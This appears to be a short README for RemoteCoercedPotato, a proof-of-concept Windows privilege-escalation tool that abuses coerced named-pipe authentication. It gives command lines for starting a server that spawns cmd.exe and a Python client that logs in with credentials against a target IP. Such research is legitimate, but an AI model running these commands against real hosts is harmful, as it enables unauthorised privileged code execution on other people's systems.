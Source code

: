 # RemoteCoercedPotato
A remote Coerced patate


This is only a POC (for now).


Todo : 

    - Random NamedPipe [DONE]
    
    - Implemention of MS-RPRN interfacce 
    
    - Creation a powershell "NamedPipe server" 


Usage (for now) : 

- Without random namedpipe (default) :

    > $ ./CoercedPotatoServer -c cmd.exe

    > python3 CoercedPotatoClient.py -u user -p password 127.0.0.1 [targeted_IP]


 - Without random namedpipe (given by CoercedPotatoServer output) : 
 
    > $ ./CoercedPotatoServer -c cmd.exe -r true 
        
    > python3 CoercedPotatoClient.py -n [randomnamedpipe] -u user -p password -r true 127.0.0.1 [targeted_IP] 

